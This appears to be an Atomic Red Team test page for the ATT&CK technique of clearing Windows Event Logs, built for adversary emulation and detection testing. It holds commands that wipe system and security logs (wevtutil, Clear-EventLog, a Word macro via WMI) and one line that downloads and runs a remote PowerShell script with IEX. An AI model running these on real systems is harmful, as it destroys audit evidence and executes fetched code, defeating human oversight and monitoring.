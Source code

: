 # T1070.001 - Indicator Removal on Host: Clear Windows Event Logs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)
<blockquote>Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.

The event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001). For example, adversaries may use the PowerShell command <code>Remove-EventLog -LogName Security</code> to delete the Security EventLog and after reboot, disable future logging. Note: events may still be generated and logged in the .evtx file between the time the command is run and the reboot.(Citation: disable_win_evt_logging)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)


<br/>

## Atomic Test #1 - Clear Logs
Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows


**auto_generated_guid:** e6abb60e-26b8-41da-8aae-0c35174b0967





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | string | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog
Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows


**auto_generated_guid:** b13e9306-3351-4b4b-a6e8-477358b0b498






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```






<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA
This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system. 

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows


**auto_generated_guid:** 1b682d84-f075-4f93-9a89-8a8de19ffd6e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
